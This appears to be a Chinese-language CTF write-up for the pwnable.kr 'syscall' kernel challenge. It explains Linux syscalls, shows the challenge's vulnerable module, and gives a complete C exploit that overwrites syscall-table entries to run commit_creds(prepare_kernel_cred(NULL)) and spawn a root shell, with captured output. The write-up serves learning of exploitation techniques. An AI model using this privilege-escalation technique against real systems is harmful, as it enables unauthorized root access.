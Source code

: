 ```yaml
---
title: pwnable syscall
date: 2017-04-27 12:12:48
tags:
- kernel_exploit
- syscall
categories:
- pwnable.kr
---
```


在做这题之前我顺便记录一下跟系统调用相关的知识。
## How to define syscall
```c
asmlinkage long sys_function()
```
所有系统调用都要有asmlinkage这个限定词。函数返回值为long。
系统调用function()在内核中定义为sys_function()。
sys_call_table: 记录所有已注册的系统调用的列表。
system_call(): 系统调用处理函数。
NR_syscalls: length of syscall table

## Procedure of syscall
<!-- more -->
1. syscall_call()比较系统调用号与NR_syscalls，若大于等于，则返回-ENOSYS。否则就执行相应的系统调用：
```c
call *sys_call_table(, %rax, 8)
```
2. 参数传递；
```asm
32-bit syscall	                  64-bit syscall

up to 6 inputs
EBX, ECX, EDX, ESI, EDI, EBP      RDI, RSI, RDX, R10, R8, R9

over 6 inputs
in RAM; EBX points to them        forbidden
```

可以在用户态直接通过syscall函数来执行系统调用。
```shell
int syscall(int number, ...);
```
参数为系统调用号相应的参数。

## Adding a syscall to linux
[Adding hello world system call to Linux](https://arvindsraj.wordpress.com/2012/10/05/adding-hello-world-system-call-to-linux/)

## pwnable-syscall
这题虽然是最简单的kernel exploit，但是对不会kernel exploit还是个很好的入门题的。万事开头难，贵在坚持。

程序逻辑很简单，就加入了一个系统调用。但是这个系统调用就有问题了，几乎可以任意地址写。
```c
 // adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );
```

### Exploit
总体思路是在内核态执行如下两个函数：
```c
commit_creds(prepare_kernel_cred(NULL));
```
linux用一个结构体cred来管理进程的相关id。我们要做的是修改进程的cred，把其所有的uid/gid等字段都设置为0，进而获得root权限。
prepare_kernel_cred函数创建一个新的cred结构体，如果传入的参数为NULL，则将所有的uid/gid的字段设置为0，所有的功能为字段设置为1。即创建一个具有所有权限且没有限制的cred结构体。而commit_creds函数则是为当前的进程设置新的权限凭据。所以当可以执行上面的函数链时，进程就能获得root权限。

因为是内核到处的函数，所以我们可以通过如下方法找到其地址：
```shell
root@kali:~/Desktop# cat /proc/kallsyms | grep prepare_kernel_cred
c1083e60 T prepare_kernel_cred
root@kali:~/Desktop# cat /proc/kallsyms | grep commit_creds
c1083a90 T commit_creds
```
但是在有些安全化的环境也有可能访问不到这个文件。

提升权限后我们需要回到用户空间，当执行system("/bin/sh")，这样得到的shell就是root身份了。实在不太熟悉怎么写内核利用类脚本，所以就在别人的脚本上改了一下......
```c
//gcc -o solver solver.c -std=c99

#include <unistd.h>
#include <stdio.h>

#define SYS_CALL_TABLE 0x8000e348

#define PREPARE_KERNEL_CRED 0x8003f924
//0x8003f56c  '6c' is low_case, so adding padding to '60'
#define COMMIT_CREDS 0x8003f560

#define SYS_EMPTY_A 188
#define SYS_EMPTY_B 189

int main() {
    unsigned int* sct = (unsigned int*)SYS_CALL_TABLE;

    char nop[] = "\x01\x10\xa0\xe1";  //rasm2 -a arm 'mov r1,r1'
    char buf[20];

    for (int i = 0; i < 12; i++) {
        buf[i] = nop[i % 4];
    }
    buf[12] = 0;

    syscall(223, buf, COMMIT_CREDS);
    puts("Stage 1 - add padding");

    syscall(223, "\x24\xf9\x03\x80", sct + SYS_EMPTY_A);
    syscall(223, "\x60\xf5\x03\x80", sct + SYS_EMPTY_B);
    puts("Stage 2 - overwrite syscall table");

    syscall(SYS_EMPTY_B, syscall(SYS_EMPTY_A, 0));
    puts("Stage 3 - set new cred");

    system("/bin/sh");

    return 0;
}
```
程序首先增加一个padding，因为\x6c是小写字母，padding里执行的其实就是nop指令。然后覆盖SYS_CALL_TABLE里系统调用号188和189的地址为我们要执行的两个函数的地址。最后调用系统调用号为189的系统调用来执行函数获得root权限。其实就是执行commit_creds(prepare_kernel_cred(NULL))。上面有个问题就是syscall函数的指针参数是不能指向内核的，但是上面可以.原因很简单, 我理解有误，参数应该是由系统调用本身来验证的, 而题目中的系统调用实现本身是没有验证参数的。并且那两个系统调用号本身就没实现就更不用说了。


```shell
/ $ uname -a
Linux (none) 3.11.4 #13 SMP Fri Jul 11 00:48:31 PDT 2014 armv7l GNU/Linux

/tmp/fuck $ ./syscall 
Stage 1 - add padding
Stage 2 - overwrite syscall table
Stage 3 - set new cred
/bin/sh: can't access tty; job control turned off
/tmp/fuck # cat /root/flag
Congratz!! addr_limit looks quite IMPORTANT now... huh?
```
这个题适合入门，linux kernel exploit还是比较好玩的。还得多刷kernel exploit的题。

### Link
[github-syscall](https://github.com/Qwaz/solved-hacking-problem/tree/master/pwnable.kr/syscall)
